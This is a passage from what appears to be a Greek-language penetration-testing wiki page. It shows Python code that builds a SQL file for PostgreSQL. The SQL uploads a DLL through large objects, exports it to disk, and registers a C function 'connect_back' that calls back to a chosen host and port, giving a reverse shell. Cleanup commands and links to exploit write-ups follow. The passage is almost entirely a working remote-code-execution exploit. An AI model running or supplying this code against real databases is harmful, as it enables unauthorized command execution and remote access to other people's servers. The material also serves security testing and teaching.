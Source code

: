 ```python
sql += "insert into pg_largeobject(loid, pageno, data) values (1337, %d, decode('%s', 'hex'));" % (i, d[start:end].hex())
if (len(d) % 2048) != 0:
end   = (i+1) * 2048
sql += "insert into pg_largeobject(loid, pageno, data) values (1337, %d, decode('%s', 'hex'));" % ((i+1), d[end:].hex())

sql += "select lo_export(1337, 'poc.dll');"
sql += "create function connect_back(text, integer) returns void as '../data/poc', 'connect_back' language C strict;"
sql += "select connect_back('%s', %d);" % (host, port)
print("(+) building poc.sql file")
with open("poc.sql", "w") as sqlfile:
sqlfile.write(sql)
print("(+) run poc.sql in PostgreSQL using the superuser")
print("(+) for a db cleanup only, run the following sql:")
print("    select lo_unlink(l.oid) from pg_largeobject_metadata l;")
print("    drop function connect_back(text, integer);")
```
## Αναφορές

* [https://www.dionach.com/blog/postgresql-9-x-remote-command-execution/](https://www.dionach.com/blog/postgresql-9-x-remote-command-execution/)
* [https://www.exploit-db.com/papers/13084](https://www.exploit-db.com/papers/13084)

{% hint style="success" %}